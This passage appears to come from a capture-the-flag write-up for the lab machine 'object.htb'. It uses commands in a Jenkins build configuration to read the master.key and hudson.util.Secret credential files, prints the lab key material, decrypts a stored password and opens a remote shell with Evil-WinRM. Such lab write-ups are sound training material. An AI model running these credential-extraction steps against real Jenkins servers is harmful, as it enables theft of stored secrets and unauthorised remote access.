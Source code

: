 We can easily recover the missing files using the following command in our build configuration:

```bash
cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\master.key"

powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $c"
```

Note that the **hudson.util.Secret** is a binary file so we need to encode it. Here is the **master.key** file:

```bash
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
```

Here is the **hudson.util.Secret** file in Base64:

```bash
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```

Now, we can decode **hudson.util.Secret**.

```bash
echo "gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=" | base64 -d > hudson.util.Secret
```

We can execute our script to recover the password

```bash
$ python3 jenkins_offline_decrypt.py master.key hudson.util.Secret credentials.xml
c1cdfun_d2434
```

Awesome, let's see if we can connect to the remote machine with this password and the **oliver** username.

## WinRM Access

From a Linux machine, we can use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), a Ruby tool that implements Microsoft WS-Management Protocol, and the recovered account to connect to the remote machine and grab the **first flag**.

```bash
$ evil-winrm -i object.htb -u oliver -p c1cdfun_d2434                          

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\oliver\Documents> ls ..\Desktop


    Directory: C:\Users\oliver\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/28/2023  11:07 AM             34 user.txt
```
